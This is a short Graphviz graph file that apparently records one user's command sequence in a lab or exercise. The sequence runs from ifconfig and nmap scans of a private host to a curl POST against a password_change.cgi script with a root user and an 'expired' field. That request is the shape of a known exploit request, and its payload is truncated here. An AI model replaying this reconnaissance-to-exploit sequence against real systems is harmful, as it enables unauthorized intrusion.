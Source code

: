 // creating graph for user: 79
digraph {
	node [shape=box]
	0 [label="ifconfig U"]
	1 [label="nmap -sv 172.18.1.5 M0 "]
	2 [label="nmap -sV 172.18.1.5 M1 "]
	3 [label="curl 172.18.1.5:10000 U"]
	4 [label="curl 172.18.1.5:10000/password_change.cgi -d 'user=root&pam=&expired=2 A4 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	rankdir=LR
}
